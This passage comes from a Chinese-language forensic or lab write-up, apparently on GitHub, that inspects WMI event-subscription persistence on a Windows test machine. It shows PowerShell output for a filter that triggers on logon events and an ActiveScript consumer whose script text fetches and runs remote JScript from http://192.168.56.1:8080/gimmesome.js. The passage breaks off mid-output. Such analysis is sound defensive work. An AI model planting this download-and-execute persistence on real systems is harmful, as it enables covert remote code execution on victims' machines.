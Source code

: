 ```powershell
__PROPERTY_COUNT : 6
__DERIVATION     : {__IndicationRelated, __SystemClass}
__SERVER         : MSEDGEWIN10
__NAMESPACE      : ROOT\Subscription
__PATH           : \\MSEDGEWIN10\ROOT\Subscription:__EventFilter.Name="Ready2Go"
CreatorSID       : {1, 5, 0, 0...}
EventAccess      :
EventNamespace   : root\cimv2
Name             : Ready2Go
Query            : select * from __InstanceCreationEvent within 5 where targetinstance isa 'win32_NTLogEvent' and
                   targetinstance.EventCode='4624'
QueryLanguage    : wql
PSComputerName   : MSEDGEWIN10



PS C:\Users\IEUser>
```
- #### 檢視 EventConsumer
	- #### Event Consumer Name 是 `sysWOW64.wbemapi`
	- #### 顯示他會下載 `script:http://192.168.56.1:8080/gimmesome.js` 並執行
```powershell
PS C:\Users\IEUser> Get-WmiObject -Namespace root\Subscription -Class __EventConsumer


__GENUS          : 2
__CLASS          : ActiveScriptEventConsumer
__SUPERCLASS     : __EventConsumer
__DYNASTY        : __SystemClass
__RELPATH        : ActiveScriptEventConsumer.Name="sysWOW64.wbemapi"
__PROPERTY_COUNT : 8
__DERIVATION     : {__EventConsumer, __IndicationRelated, __SystemClass}
__SERVER         : MSEDGEWIN10
__NAMESPACE      : ROOT\Subscription
__PATH           : \\MSEDGEWIN10\ROOT\Subscription:ActiveScriptEventConsumer.Name="sysWOW64.wbemapi"
CreatorSID       : {1, 5, 0, 0...}
KillTimeout      : 0
MachineName      :
MaximumQueueSize :
Name             : sysWOW64.wbemapi
ScriptFilename   :
ScriptingEngine  : JScript
ScriptText       : GetObject("script:http://192.168.56.1:8080/gimmesome.js")
PSComputerName   : MSEDGEWIN10


PS C:\Users\IEUser>
```
- #### 可再檢視 FilterToConsumerBinding 確認
	- #### 可確認 Filter `Ready2Go` 與 Consumer `sysWOW64.wbemapi` 兩者是 Binding 的
	- #### 也就是當 EventFilter `Ready2Go` 的 `5 秒內有登入紀錄` 條件滿足時，觸發執行 Consumer `sysWOW64.wbemapi` 的內容，下載並執行 `http://192.168.56.1:8080/gimmesome.js`
```powershell
PS C:\Users\IEUser> Get-WMIObject -Namespace root\Subscription -Class __FilterToConsumerBinding


__GENUS                 : 2
__CLASS                 : __FilterToConsumerBinding
__SUPERCLASS            : __IndicationRelated
__DYNASTY               : __SystemClass
__RELPATH               : __FilterToConsumerBinding.Consumer="\\\\.\\root\\subscription:ActiveScriptEventConsumer.Name=
```